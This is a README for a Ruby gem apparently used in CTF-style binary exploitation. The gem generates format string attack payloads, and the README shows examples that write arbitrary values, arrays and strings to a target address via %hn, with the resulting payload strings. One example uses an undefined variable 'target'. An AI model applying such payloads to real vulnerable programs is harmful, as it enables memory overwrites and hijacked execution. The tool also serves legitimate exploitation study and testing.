 # fsalib

[![Build Status](https://travis-ci.org/owlinux1000/fsa.svg?branch=master)](https://travis-ci.org/owlinux1000/fsa)
[![MIT License](http://img.shields.io/badge/license-MIT-blue.svg?style=flat)](LICENSE)

I made this script based on [libformatstr](https://github.com/hellman/libformatstr).


## Install

```
$ gem install fsa
```

## Usage

### Basic

```ruby
#coding: ascii-8bit
require_relative 'fsa'

target_addr = 0x08049580

value = 0xdeadbeef
fmt = FSA.new()
fmt[target_addr] = value
p fmt.payload(0) # index of argument
#=> "%48879c%6$hn%8126c%7$hnA\x80\x95\x04\b\x82\x95\x04\b"

# Supported Array
value = [0xdeadbeef, 0xdeadbeef] # like ropchain
fmt = FSA.new()
fmt[target_addr] = value
p fmt.payload(0)
#=> "%48879c%9$hn%10$hn%8126c%11$hn%12$hn\x80\x95\x04\b\x84\x95\x04\b\x82\x95\x04\b\x86\x95\x04\b"

# Supported String
value = "H@CK"
fmt = FSA.new()
fmt[target] = value
p fmt.payload(0)
#=> "%16456c%6$hn%2811c%7$hnA\x80\x95\x04\b\x82\x95\x04\b"
```

### Advanced

```ruby
#coding: ascii-8bit
require_relative 'fsa'

target_addr = 0x08049580
value = 0xdead            # 2byte(Supported 2byte, 1byte)
fmt = FSA.new(30)         # padding 
fmt[target_addr] = value
p fmt.payload(0, start_len = 10) # len of already printed data
#=> "%57005c%3$hnAAL\xA0\x04\b\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"

```
